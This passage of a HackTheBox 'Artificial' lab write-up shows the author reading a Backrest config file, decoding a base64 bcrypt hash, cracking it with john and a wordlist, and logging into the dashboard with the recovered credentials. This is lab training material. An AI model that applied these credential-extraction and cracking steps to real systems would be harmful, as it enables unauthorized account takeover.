 this was pretty much the same stuff I found under `/opt/backrest` except that the config file was readable this time, inside it I found a `base64`ed `bcrypt` hash

```bash
gael@artificial:/tmp/lab$ cat backrest/.config/backrest/config.json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
gael@artificial:/tmp/lab$  echo JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP | base64 -d
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

which again I used `john` to crack

``` bash
$ john backrest.bcrypt --format=Raw-MD5 --wordlist=$ROCK
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^           (?)
1g 0:00:00:40 DONE (2025-08-26 17:18) 0.02441g/s 131.8p/s 131.8c/s 131.8C/s kelsie..hayden1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

then I logged in to backrest using `backrest_root:!@#$%^` and got the following dashboard
![backrest_login_dashboard.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/htb/artificial/backrest_login_dashboard.png)
